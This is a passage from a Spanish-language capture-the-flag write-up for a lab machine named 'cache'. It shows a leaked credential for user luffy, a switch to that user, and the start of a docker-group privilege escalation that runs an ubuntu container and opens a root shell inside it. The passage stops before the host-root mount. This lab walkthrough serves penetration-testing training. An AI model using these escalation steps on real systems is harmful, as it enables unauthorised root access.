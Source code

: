 Tenemos la credencial **luffy : 0n3_p1ec3**; por lo que podríamos tratar de migrar a dicho usuario.

```bash
ash@cache:/$ su luffy
Password: 
luffy@cache:/$ whoami
luffy
luffy@cache:/$
```

Nos convertimos en el usuario **luffy** y vemos que se encuentra en el grupo **docker**.

```bash
luffy@cache:/$ id
uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)
luffy@cache:/$
```

Por lo tanto, ya tenemos una posible vía para convertirnos en **root** creando un contenedor (en este caso ya lo tenemos) y crear una montura dentro del contener de la raiz del sistema principal; con esto, podemos ingresar al contenedor como **root** y modificar cualquier archivo, incluyendo la montura.

```bash
luffy@cache:/$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              2ca708c1c9cc        2 years ago         64.2MB
luffy@cache:/$ docker ps
CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS              PORTS               NAMES
luffy@cache:/$ docker ps -a
CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS              PORTS               NAMES
luffy@cache:/$
```

Aprovechamos la imagen que ya esta **ubuntu** y creamos el contenedor.

```bash
luffy@cache:/$ docker run --rm -dit --name privesc ubuntu
9c85c1a826d694eebb3ba9f0cc84c1b52f6db278ef6f02009f390d7737862726
luffy@cache:/$ docker ps
CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS              PORTS               NAMES
9c85c1a826d6        ubuntu              "/bin/bash"         4 seconds ago       Up 1 second                             privesc
luffy@cache:/$
```

De forma interactiva nos desplegamos una `/bin/bash` para nuestro contenedor **privesc**.

```bash
luffy@cache:/$ docker exec -it privesc /bin/bash
root@9c85c1a826d6:/#
```

Creamos la montura de la raiz del sistema principal; por lo que antes paramos el contenedor y creamos uno nuevo:

